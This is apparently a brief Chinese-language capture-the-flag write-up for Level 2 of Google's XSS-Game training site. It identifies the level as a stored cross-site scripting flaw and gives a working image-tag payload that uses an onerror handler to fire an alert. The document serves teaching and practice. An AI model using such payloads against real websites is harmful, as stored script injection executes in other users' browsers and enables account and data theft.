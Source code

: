## [[XSS-Game](https://xss-game.appspot.com/)] [[Level 2 - Persistence is key](https://xss-game.appspot.com/level2)] [[解题报告](https://exp-blog.com/safe/ctf/xss-game/level-2-persistence-is-key/)]

------

水题，明显是存储型 XSS 。

提交 `<img src=0 />`发现页面直接解析了

直接构造 payload 即可：

`<img src=0 onerror=alert("exp") />`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/xss-game/level-2/imgs/01.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
